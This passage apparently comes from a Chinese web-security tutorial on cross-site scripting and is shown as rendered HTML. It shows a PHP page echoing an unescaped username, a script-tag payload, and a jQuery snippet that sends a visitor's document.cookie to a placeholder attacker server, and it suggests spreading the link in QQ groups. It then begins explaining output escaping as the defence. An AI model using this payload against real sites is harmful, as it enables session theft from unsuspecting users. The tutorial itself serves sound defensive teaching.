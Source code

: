         <span class="hljs-tag">&lt;<span class="hljs-name">meta</span> <span class="hljs-attr">charset</span>=<span class="hljs-string">"utf-8"</span> /&gt;</span>
    <span class="hljs-tag">&lt;/<span class="hljs-name">head</span>&gt;</span>
    <span class="hljs-tag">&lt;<span class="hljs-name">body</span>&gt;</span>
        <span class="hljs-tag">&lt;<span class="hljs-name">div</span>&gt;</span>
            用户名：<span class="php"><span class="hljs-meta">&lt;?php</span> <span class="hljs-keyword">echo</span> $username;<span class="hljs-meta">?&gt;</span></span>
        <span class="hljs-tag">&lt;/<span class="hljs-name">div</span>&gt;</span>
        <span class="hljs-tag">&lt;<span class="hljs-name">div</span>&gt;</span>
            第一条状态：侯医生的状态1
        <span class="hljs-tag">&lt;/<span class="hljs-name">div</span>&gt;</span>
        <span class="hljs-tag">&lt;<span class="hljs-name">div</span>&gt;</span>
            第二条状态：侯医生的状态2
        <span class="hljs-tag">&lt;/<span class="hljs-name">div</span>&gt;</span>
        <span class="hljs-tag">&lt;<span class="hljs-name">div</span>&gt;</span>
            第三条状态：侯医生的状态3
        <span class="hljs-tag">&lt;/<span class="hljs-name">div</span>&gt;</span>
    <span class="hljs-tag">&lt;/<span class="hljs-name">body</span>&gt;</span>
<span class="hljs-tag">&lt;/<span class="hljs-name">html</span>&gt;</span></code></pre>
<p>运行时，展现形式如图1.1.1所示：</p>
<p><span class="img-wrap"><img data-src="/img/bVB9cO" src="https://static.alili.tech/img/bVB9cO" alt="clipboard.png" title="clipboard.png" style="cursor: pointer;"></span><br>图1.1.1</p>
<p>但是，如果你的用户名，起名称的时候，带上script标签呢？我们知道，浏览器遇到html中的script标签的时候，会解析并执行标签中的js脚本代码，那么如果你的用户名称里面含有script标签的话，就可以执行其中的代码了。<br>代码如下，效果如图1.1.2</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="<?php
    $username=&quot;<script>alert('侯医生');</script>&quot;;
?>" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="hljs xml"><code><span class="php"><span class="hljs-meta">&lt;?php</span>
    $username=<span class="hljs-string">"&lt;script&gt;alert('侯医生');&lt;/script&gt;"</span>;
<span class="hljs-meta">?&gt;</span></span></code></pre>
<p><span class="img-wrap"><img data-src="/img/bVB9or" src="https://static.alili.tech/img/bVB9or" alt="clipboard.png" title="clipboard.png" style="cursor: pointer;"></span><br>图1.1.2<br>如果你将自己的用户名设定为这种执行脚本的方式，再让别人去访问你的连接的话，就可以达到在他人web环境中，执行自己脚本的效果了。我们还可以使用ajax，将其他用户在当前域名下的cookie获取并发送到自己的服务器上。这样就可以获取他人信息了。比如，刚刚咱们使用的不是alert而是，如下的代码：</p>
<div class="widget-codetool" style="display:none;">
      <div class="widget-codetool--inner">
      <span class="selectCode code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="全选"></span>
      <span type="button" class="copyCode code-tool" data-toggle="tooltip" data-placement="top" data-clipboard-text="$.ajax({
    url: '自己的服务器',
    dataType: 'jsonp',
    data: {'盗取的用户cookie': document.cookie}
});" title="" data-original-title="复制"></span>
      <span type="button" class="saveToNote code-tool" data-toggle="tooltip" data-placement="top" title="" data-original-title="放进笔记"></span>
      </div>
      </div><pre class="hljs javascript"><code>$.ajax({
    <span class="hljs-attr">url</span>: <span class="hljs-string">'自己的服务器'</span>,
    <span class="hljs-attr">dataType</span>: <span class="hljs-string">'jsonp'</span>,
    <span class="hljs-attr">data</span>: {<span class="hljs-string">'盗取的用户cookie'</span>: <span class="hljs-built_in">document</span>.cookie}
});</code></pre>
<p>再在各个QQ群中，散播自己的空间，引诱别人来访问。就可以拿到用户在这个域名下的cookie或者其他隐私了。</p>
<h3 id="articleHeader4">1.2 如何防范？</h3>
<p>目前来讲，最简单的办法防治办法，还是将前端输出数据都进行转义最为稳妥。比如，按照刚刚我们那个例子来说，其本质是，浏览器遇到script标签的话，则会执行其中的脚本。但是如果我们将script标签的进行转义，则浏览器便不会认为其是一个标签，但是显示的时候，还是会按照正常的方式去显示，代码如下，效果如图1.2.1</p>
<div class="widget-codetool" style="display:none;">